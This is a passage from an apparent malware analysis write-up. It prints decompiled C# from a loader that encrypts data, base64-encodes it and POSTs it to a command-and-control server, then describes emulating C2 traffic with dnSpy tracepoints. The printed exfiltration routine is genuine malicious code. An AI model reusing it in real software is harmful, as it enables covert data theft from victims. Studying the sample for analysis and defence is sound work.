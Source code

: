 ```C#        
		data_str = Convert.ToBase64String(rc4_encrypted_string);
	}
	HnvKzYXNyYAYLD data_to_send = new HnvKzYXNyYAYLD
	{
		UUID = arg2,
		ID = rand_str,
		Data = data_str
	};
	var js_serializer = new JavaScriptSerializer();
	var serialized_data = js_serializer.Serialize(data_to_send).ToString();
	http_request.ContentType = "application/json";
	try
	{
		stream = http_request.GetRequestStream();
		stream.Write(Encoding.ASCII.GetBytes(serialized_data), 0, serialized_data.Length);
	}
	finally
	{
		if (stream != null)
		{
			stream.Dispose();
		}
	}
	try
	{
		stream = http_request.GetResponse().GetResponseStream();
		streamreader = new StreamReader(stream);
		streamreader_content = streamreader.ReadToEnd();
	}
	catch
	{
		streamreader_content = "";
	}
	return streamreader_content.ToString();
}
```
The encrypted string is then base64 encoded, added as an element to a structure, serialized, and sent to the C2 server. If there is a response, it is returned from the method.  

There are a few more methods contained within this loader, but out of scope of the write up. I'll now move on to emulating the communications between a victim and the C2.
## Communication Emulation
My next goal is to use the loader to communicate with the C2 server while logging all requests and responses. Since I have the source code, I've got a few options to chose from.

I could add some C# code to log the plaintext requests and responses as the loader runs. However, I want to showcase a cool feature I learned recently in dnSpy, so I chose to simply add a main method and compile the binary as is.  

### dnSpy Tracepoints
Once the binary was loaded into dnSpy, I set breakpoints right before data was sent to the C2 and right after the response was decoded. 
